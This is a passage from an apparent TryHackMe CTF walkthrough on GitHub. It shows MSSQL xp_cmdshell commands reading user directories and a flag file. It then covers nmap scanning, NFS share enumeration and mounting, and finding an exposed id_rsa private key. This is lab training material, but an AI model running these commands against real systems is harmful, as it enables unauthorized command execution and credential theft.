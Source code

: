 another thing we can do is xp_cmdshell to execute Windows shell command

```
xp_cmdshell 'whoami'
xp_cmdshell 'dir c:\Users\grinch'
xp_cmdshell 'type c:\Users\grinch\Documents\flag.txt'
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d3e7a140-e7ef-413f-b30f-3fb0cbb71ee3)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3acbc35e-1053-443f-829d-8a4323b2e4da)

## Day 12: Sharing Without Caring

scan the target

```
nmap -sS -sV -T4 -Pn 10.10.73.165
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/939abb08-fed6-4a13-9013-48e02fc5ea4f)

notice that there is a nfs server at port 2049

```
showmount -e 10.10.73.165
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/2e02782f-c669-437c-bec8-2d29c8fdc1d7)

create a mount to discover it

```
mkdir tmp
mount 10.10.73.165:/ tmp
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f1155a82-09bd-40ce-bfa4-a57e98c28386)

on share folder contain 2 text files

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1995474b-3c49-4ae5-a27f-389e80c99ba0)

you can see an id_rsa key on confidential folder

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/2ac0ec6a-d8ee-4175-96c0-6c4115a0e19d)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/be172b32-a31e-446b-8161-d7d6911feb63)

## Day 13: They Lost The Plan!

we have a windows server, open powershell and list all user
